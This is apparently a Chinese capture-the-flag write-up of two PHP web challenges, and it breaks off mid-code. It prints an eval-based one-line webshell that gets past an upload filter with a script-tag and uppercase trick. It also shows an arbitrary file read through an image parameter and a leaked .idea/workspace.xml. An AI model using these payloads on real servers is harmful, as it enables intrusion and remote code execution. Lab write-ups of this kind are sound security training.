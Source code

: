 这题终于有点爆破的意思了。

## Upload
尝试上传 php 一句话木马，发现过滤了 `<?` 和 `php`，对前者利用 `<script>` 绕过，后者则大写绕过。payload：
```php
<script language="PHP">
  eval($_POST['ant']);
</script>
```
上传 getshell，在上级目录得到 `flag.php`。

## Code
题目链接中含有 `?jpg=hei.jpg`，猜测可能可以通过这个读文件，尝试 `?jpg=index.php`，F12 得到 base64 后的源代码，解码：
```php
<?php
/**
 * Created by PhpStorm.
 * Date: 2015/11/16
 * Time: 1:31
 */
header('content-type:text/html;charset=utf-8');
if(! isset($_GET['jpg']))
    header('Refresh:0;url=./index.php?jpg=hei.jpg');
$file = $_GET['jpg'];
echo '<title>file:'.$file.'</title>';
$file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);
$file = str_replace("config","_", $file);
$txt = base64_encode(file_get_contents($file));

echo "<img src='data:image/gif;base64,".$txt."'></img>";

/*
 * Can you find the flag file?
 *
 */

?>
```
注意这里会对 `file` 进行过滤，将非数字 / 字母删除，并将 `config` 换成 `_`，但是我们并不知道我们要读的文件是什么。

这时可以注意到注释：`Created by PhpStorm`，猜想是 `.idea` 泄漏，因此访问 `/.idea/workspace.xml`，可以发现文件 `fl3g_ichuqiu.php`。由于 `_` 不是数字或字母，我们应用上述规则访问 `fl3gconfigichuqiu.php`：
```
index.php?jpg=fl3gconfigichuqiu.php
```
解码得到：


```php
<?php
/**
 * Created by PhpStorm.
 * Date: 2015/11/16
 * Time: 1:31
 */
error_reporting(E_ALL || ~E_NOTICE);
include('config.php');
function random($length, $chars ='ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz') {
    $hash = '';
    $max = strlen($chars) - 1;
    for($i = 0; $i < $length; $i++)	{
        $hash .= $chars[mt_rand(0, $max)];
    }
    return $hash;
```